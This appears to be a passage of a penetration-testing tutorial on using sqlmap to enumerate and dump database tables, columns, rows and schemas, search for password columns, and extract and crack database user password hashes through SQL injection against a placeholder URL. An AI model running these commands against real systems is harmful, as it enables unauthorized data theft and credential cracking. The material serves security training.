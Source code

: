 ```$ sqlmap 'http://www.example.com/' --data 'uid=1&name=test'```
## Table/Row Enumeration

When dealing with large tables with many columns and/or rows, we can specify the columns (e.g., only name and surname columns) with the `-C` option, as follows:

`$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`


To narrow down the rows based on their ordinal number(s) inside the table, we can specify the rows with the `--start` and `--stop` options (e.g., start from 2nd up to 3rd entry), as follows:

`$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3`



## Conditional Enumeration

If there is a requirement to retrieve certain rows based on a known `WHERE `condition (e.g. name LIKE 'f%'), we can use the option `--where`, as follows:

 
 `$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"`


## Full DB Enumeration

the `--dump-all`switch, all the content from all the databases will be retrieved.


By simply using the switch `--dump` without specifying a table with `-T`, all of the current database content will be retrieved. 




## DB Schema Enumeration

        
If we wanted to retrieve the structure of all of the tables so that we can have a complete overview of the database architecture, we could use the switch `--schema`:

`$ sqlmap -u "http://www.example.com/?id=1" --schema`

## Searching for Data

we can search for databases, tables, and columns of interest, by using the `--search `option. This option enables us to search for identifier names by using the LIKE operator. 

`$ sqlmap -u "http://www.example.com/?id=1" --search -T user`


We could also have tried to search for all column names based on a specific keyword (e.g. pass):

`$ sqlmap -u "http://www.example.com/?id=1" --search -C pass`



## DB Users Password Enumeration and Cracking


`$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch`


```